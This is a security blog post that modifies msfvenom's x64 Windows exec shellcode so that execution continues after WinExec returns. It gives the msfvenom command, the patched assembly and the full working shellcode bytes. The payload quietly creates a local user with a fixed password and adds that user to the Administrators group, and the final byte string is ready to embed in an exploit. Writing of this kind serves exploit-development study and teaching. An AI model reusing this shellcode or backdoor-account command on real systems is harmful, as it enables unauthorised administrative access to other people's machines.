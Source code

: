 ```yaml
---
layout: post
title: Altering Msfvenom Exec Payload to Work Without an ExitFunc
date: 2018-11-18
categories:
  - security
  - shellcoding
tags:
  - msfvenom
  - exitfunc
  - x64
  - windows
---
```

On a few occasions as of late, I've wanted to use the `windows[/x64]/exec` payload from `msfvenom`, but with the goal of:

1. Allowing execution to continue afterwards
2. Executing in a single threaded environment
3. Executing without an exception handler

Unfortunately, when setting the `EXITFUNC` option to `none`, no code is generated to allow execution to continue as normal after the payload has been executed, and ultimately results in an access violation.

The example I'll be going over in this post is specifically the x64 version of the exec payload, which differs slightly to the x86 version. Most notably, the calling convention is different, the x86 version will see all arguments pushed on to the stack, but the x64 version will put the first few arguments into registers.

To generate the base shellcode I'll be working with, I ran: `msfvenom -p windows/x64/exec CMD='cmd.exe /k "net user /add di.security Disecurity1! && net localgroup administrators di.security /add"' EXITFUNC=none`

What Causes the Problem
-----------------------
The `exec` payload uses the [WinExec](https://docs.microsoft.com/en-us/windows/desktop/api/winbase/nf-winbase-winexec) function to run the command specified in the `CMD` option.

To push the command text specified in the `CMD` option on to the stack, it is defined as raw bytes at the end of the payload, preceded by a `call` instruction:

When `call` is used, the address of the next instruction is then pushed on to the stack, so the execution flow can return to the correct place later. In the context of shellcoding, the pointer to the next instruction is effectively a pointer to the string that has been defined in place, and avoids the need for N amount of `push` instructions.

![](/assets/images/altering-msfvenom-exec-payload-to-work-without-exitfunc/original_storing_of_cmd_on_stack.png)

If we were to take the first few bytes that appear after `call rbp` in the above screenshot and convert them to ASCII, we can see that it is the equivalent of `cmd.exe /k`:

```shell_session
$ echo -e "\x63\x6d\x64\x2e\x65\x78\x65\x20\x2f\x6b"
cmd.exe /k
```

Eventually, the execution of the payload will end up being passed to these bytes, which will lead to an error at some point, as the bytes are nonsensical in terms of actual operations.

The Solution
------------
The solution to this issue is quite simple. The ultimate goal will be to add some extra bytes before the command text bytes which will instruct the program to jump past the command text bytes so that normal operations can continue.

As you may be anticipating, doing this will cause an issue in that extra bytes will precede the command text in the call to `WinExec`. To avoid this becoming an issue, an additional change will need to be made to ensure the pointer used for the `lpCmdLine` argument is increased by an appropriate number of bytes, so that it points ahead of the new bytes being added.

The change to the command text area can be seen in the screenshot below:

![](/assets/images/altering-msfvenom-exec-payload-to-work-without-exitfunc/cmd-text-with-jmp.png)

Four new bytes have been added after `call rbp`, the first two are are for a `jmp` operation to jump forward past the in place bytes, and the subsequent two bytes are just two NOPs to visually show the separation.

With the new code in place to ensure the command text bytes are never executed, the change to offset the `lpCmdLine` pointer can be made.

The point at which `WinExec` is invoked is at the `jmp rax` operation. At this point, the command being executed will be stored in the `rcx` register. The code block to look for is:

```nasm
pop  r8              ; 4158
pop  r8              ; 4158
pop  rsi             ; 5E
pop  rcx             ; 59
pop  rdx             ; 5A
pop  r8              ; 4158
pop  r9              ; 4159
pop  r10             ; 415A
sub  rsp,byte +0x20  ; 4883EC20
push r10             ; 4152
jmp  rax             ; FFE0
```

As 4 bytes will be added before `jmp rax` to make the adjustment, and 4 bytes were added to jump over the command text, `rcx` needs to be adjusted by 8 bytes. To do this, `add rcx, 0x8` is inserted before `jmp rax`:

```nasm
push r10             ; 4152
add  rcx, byte +0x8  ; 4883C108
jmp  rax             ; FFE0
```

Fixing Relative Jumps
---------------------
The simple solution now becomes a bit more painful. Adding the adjustment to the `rcx` register causes a shift in a number of offsets by 4 bytes.

Thankfully, the visual aid on the left side of the screen in [x64dbg](https://x64dbg.com/) makes it a bit easier to identify affected jumps by showing where they would land if taken.

Any jump or call instruction that has an offset that went forward past `jmp rax` will need to have its offset increased by 4, where as any jump or call that went backwards will need to have its offset decreased by 4.

A total of 4 operations were found that needed to be changed:

- `E8 C0` (`call 0xca`) changes to `E8 C4`
- `74 67` (`jz 0xbf`) changes to `74 6B`
- `E3 56` (`jrcxz 0xbe`) changes to `E3 5A`
- The one jump backwards found towards the end of the payload changes from `E9 57 FF FF FF` to `E9 53 FF FF FF`

Wrapping Up & Testing
---------------------
Now that all the changes have been made, checking the value of `rcx` when sitting on the `jmp rax` instruction should show it pointing to the start of the command text bytes:

![](/assets/images/altering-msfvenom-exec-payload-to-work-without-exitfunc/winexec-rcx.png)

After the call to `WinExec`, the execution should eventually return to the short jump that was added before the command text bytes, which should jump straight over the entirety of the command text:

![](/assets/images/altering-msfvenom-exec-payload-to-work-without-exitfunc/post-execution.png)

What you place after the command text bytes is completely up to you. In this case, I placed a NOP sled, a stack adjustment and a call into some existing code.

After making these changes, the final payload (minus the additions after the final NOP sled) looks like this:

`\xfc\x48\x83\xe4\xf0\xe8\xc4\x00\x00\x00\x41\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6b\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x5a\x48\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\x48\x83\xc1\x08\xff\xe0\x58\x41\x59\x5a\x48\x8b\x12\xe9\x53\xff\xff\xff\x5d\x48\xba\x01\x00\x00\x00\x00\x00\x00\x00\x48\x8d\x8d\x01\x01\x00\x00\x41\xba\x31\x8b\x6f\x87\xff\xd5\xbb\xaa\xc5\xe2\x5d\x41\xba\xa6\x95\xbd\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5\xeb\x69\x90\x90\x63\x6d\x64\x2e\x65\x78\x65\x20\x2f\x6b\x20\x22\x6e\x65\x74\x20\x75\x73\x65\x72\x20\x2f\x61\x64\x64\x20\x64\x69\x2e\x73\x65\x63\x75\x72\x69\x74\x79\x20\x44\x69\x73\x65\x63\x75\x72\x69\x74\x79\x31\x21\x20\x26\x26\x20\x6e\x65\x74\x20\x6c\x6f\x63\x61\x6c\x67\x72\x6f\x75\x70\x20\x41\x64\x6d\x69\x6e\x69\x73\x74\x72\x61\x74\x6f\x72\x73\x20\x64\x69\x2e\x73\x65\x63\x75\x72\x69\x74\x79\x20\x2f\x61\x64\x64\x22\x00\x90\x90\x90\x90\x90\x90\x90\x90\x90`
